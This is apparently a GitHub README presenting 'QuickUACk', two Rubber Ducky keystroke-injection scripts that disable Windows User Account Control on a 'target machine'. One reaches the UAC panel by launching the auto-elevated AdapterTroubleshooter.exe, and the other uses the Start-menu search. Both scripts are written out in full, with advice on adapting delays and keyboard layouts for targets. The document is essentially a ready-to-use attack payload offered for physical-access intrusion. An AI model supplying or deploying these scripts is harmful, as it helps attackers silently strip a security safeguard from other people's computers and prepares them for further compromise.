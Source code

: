 # QuickUACk!
Some of my antiUAC Scripts for Rubbber Ducky

A pair of fast solutions to disable UAC (User Account Control) 
</BR>
it works on all windows version 32 and 64 bits with uac (Vista or Earlier) 
</BR>
and are valid for all languages (Latin, of course).
</BR>

The scripts were created with the Italian keyboard, 
</BR>
so I do not exclude that in some cases they require minor adjustments.
</BR>
if the target machine is old, I recommend extending the delay time.

</BR>

Ver 1.0 uses a .exe application from the C: \ Windows \ System32 (system protected) folder, 
</BR>
to start the uac on-screen control and switch to the uac panel.
</BR>
the C: \ Windows \ SysWOW64 folder for the purpose or other protected system folders that contain exe are also fine.
</BR>
Several applications contained in System32 are good, but be careful because there are some exceptions.
</BR>
You can consult this list to see the applications that are whitelisted by default on W7 
</BR>
and therefore  do not require uac checking to be performed:
</BR>

https://books.google.it/books?id=1EXt2U84WZ0C&pg=PA278&lpg=PA278&dq=AdapterTroubleshooter.exe&source=bl&ots=sWxJuFdZdU&sig=OhOUJ9gzJxfLb4jlJPiuZyP2F-U&hl=it&sa=X&ved=0ahUKEwi37qe0_fvaAhWMyqYKHWz8CWQQ6AEIcDAN#v=onepage&q=AdapterTroubleshooter.exe&f=false


![alt text](https://i.imgur.com/3k9YWzZ.gif)

</BR>

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@


QuickUACk Ver. 1.0

DELAY 2000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
REM start C:\Windows\System32\AdapterTroubleshooter.exe
</BR>
REM work on all windows version 32 and 64 bit
</BR>
REM no reboot is required for disabling 
</BR>
STRING AdapterTroubleshooter
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER
</BR>

-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-



QuickUACk Ver. 2.0

DELAY 2000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
REM opens directly the User Account Control Panel 
</BR>
REM work on all windows version 32 and 64 bit with uac (Vista or Earlier)
</BR>
REM no reboot is required for disabling
</BR>
STRING UAC
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER

</BR>

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@


</BR>

![alt text](https://media1.giphy.com/media/aQrYT4WVN55aU/giphy.gif)

